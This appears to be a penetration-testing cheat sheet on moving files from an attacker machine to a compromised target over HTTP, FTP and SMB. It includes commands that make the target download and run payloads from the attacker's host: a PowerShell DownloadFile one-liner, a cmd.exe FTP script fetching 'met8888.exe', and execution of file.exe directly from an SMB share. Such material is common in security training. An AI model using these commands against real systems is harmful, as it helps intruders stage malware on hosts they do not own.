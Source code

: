 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start

### Python

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer \[port no\]

**On target machine**:

```
http://your_ip_address:your_port_num/filename
```

If you only have command line access in a Windows machine, use PowerShell's WebClient object:
> powershell -c "(new-object System.Net.WebClient).DownloadFile('[http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name]')"

or use cmd.exe to trigger IE

```
cd Program Files\Internet Explorer start iexplore.exe "http://ip_address/file"
```

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

```
apt-get install python-pyftpdlib
python -m pyftpdlib -p [port_num]
```

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

```
use auxiliary/server/ftp
set FTPROOT /root/shells
exploit
```

Can be kill with:

> jobs -k \[id\]

**On target machine**:

Type it into your cmd.exe

> echo open your\_ip\_address&gt;ftp\_commands.txt  
> echo anonymous&gt;&gt;ftp\_commands.txt  
> echo whatever&gt;&gt;ftp\_commands.txt  
> echo binary&gt;&gt;ftp\_commands.txt  
> echo get met8888.exe&gt;&gt;ftp\_commands.txt  
> echo bye&gt;&gt;ftp\_commands.txt  
> ftp -s:ftp\_commands.txt

## SMB

**On attacker machine**:

> `smbserver.py shareName sharePath` `(e.g. smbserver.py TMP /tmp)`

Check with smbclient

> `smbclient -L [your ip address] --no-pass`

**On target machine**: 

> `net view \\\\[attack machine ip address]`

Copy file `copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB `\\[your ip address]\file.exe`


### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share (Drive MAP):

`NET USE [driveletter:] \\ComputerName\ShareName`

(replace [driveletter:] with the drive letter you want to assign).


### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration
```
[sharedname]
path = [path to share]
available  = yes
valid users = [current user]
read only = no
browsable = yes
public = yes
writable = yes
```

Add user and password
`smbpasswd -a [current user]`

List user
`pdbedit -L`

Restart SMB service
`service smb restart` 

or 

`sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows
